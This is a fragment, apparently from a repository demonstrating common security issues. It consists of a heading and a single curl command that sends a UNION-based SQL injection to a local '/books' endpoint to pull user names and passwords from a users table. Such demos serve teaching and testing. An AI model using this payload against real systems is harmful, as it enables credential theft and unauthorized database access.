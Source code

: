 # commons-security-issues

curl --silent --location --request GET 'localhost:3000/books?name=%27)%20UNION%20select%20id,(name||%27%20pass:%27||password)%20FROM%20users%20ORDER%20BY%201%20--%20'